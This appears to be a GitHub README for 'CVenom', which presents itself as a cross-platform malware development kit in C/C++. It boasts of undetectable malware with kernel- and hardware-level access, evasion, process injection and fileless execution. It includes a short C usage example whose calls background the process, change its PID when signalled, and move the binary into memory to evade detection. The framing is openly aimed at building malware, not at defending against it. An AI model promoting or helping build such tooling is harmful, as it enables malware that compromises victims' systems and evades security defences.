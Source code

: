 # CVenom
<pre>
Where The Simplicity Become Dangerous ...
         A True Cross-Platform Malware Development Kit
</pre>

<p>C/C++ Are Absolutely The Best Languages To Develop Malwares, Advanced, And Undetectable, Scary Hardware And L2 I/O Access, As You Know, C/C++ Codes, API Calls, Library Calls, System Calls Differ Between Linux And Windows, So, <strong>That's Why We Created CVenom</strong></p>

<h1>Before Everything</h1>
We've All Heard About, Or Even Used Software Development Kits, Like JDK (Java Development Kit), QT (Desktop Apps Development Kit), [...], But, Have You Ever Heard About A Malware Development Kit?! Firstly You Should Understand That You Can't Code a Malware Using Python, Java, Golang, C#, [...], There Is a Huge Amount Of Python Modules Used in Hacking, Like The Keylogger Module, Scapy, [...], But Unfortunately, All Of Those Modules Will Not Help in malware Development, Even if you compiled the python code (Including Java, C#, Go...)
<br><br>
<h3>When I Said Malware, I Didn't Meant A Simple Reverse Shell That You Can Code it with 3 Lines of Python Code, I Meant Malware With Hardware Access, Low-Level Kernel-Level And Hardware-Level Input/Output Control And Manipulation API, Evading in The Dark Corner Of the Operating System, Working Far Away From User-Level API, High-Speed Data Processing Encryption And Decryption, Intelligent Execution-Flow Redirection (Supports Redirecting Execution Into the Stack), Custom Evasion Functionality, Hardware Bombing, Intelligent Process Injector, Customized Compilation Process And A Lot More[...], All Of Those Stuffs, Can Be Used Under The OOP Concept, As Follow</h3>

````

#include <CVenom.h>
         
#include <RuntimeTools.h>
#include <EvasionTools.h>

int main(int argc, char** argv){


         cvinit(argc, argv);                                   // Initializing CVenom, Should Be Always Inserted in The Start of the Main Function With Argc and Argv

         RuntimeTools      Runner;
         EvasionTools      Evador;
         
         Runner.Background();                                  // Used To Move Execution Into Background;
         Evador.HandleAllSignals( Evador.ChangePID );          // Used To Change Current Procces PID If Any Signal Was Invoked By The User Or The Kernel
         Evador.MoveIntoMemory();                              // Used To Move The Malware From The Hard Disk To The RAM (Used To Create Fileless Malwares).
         Runner.Sleep(5);                                      // Pause The Malware For 5 Seconds
         Evador.MoveBackToDisk();                              // Move The Malware From Memory Back To Disk (Not Required Because The cvexit() Function is going to Check if the malware is On the disk Or Not, Then Move It Back From Memory Into Disk.
         
         cvexit(0);                                            // Freeing CVenom's Memory, Should Be Always Inserted in the end of the main function with the exit code.


}
````
<br><br>
<p>C/C++ Are Absolutely The Best Languages To Develop Malwares, Advanced, And Undetectable, Scary Hardware And L2 I/O Access, As You Know, C/C++ Codes, API Calls, Library Calls, System Calls Differ Between Linux And Windows, So, <strong>Welcome To CVenom</strong>.</p>
<h2>Cross-Platform OOP Based Malware Development</h2>
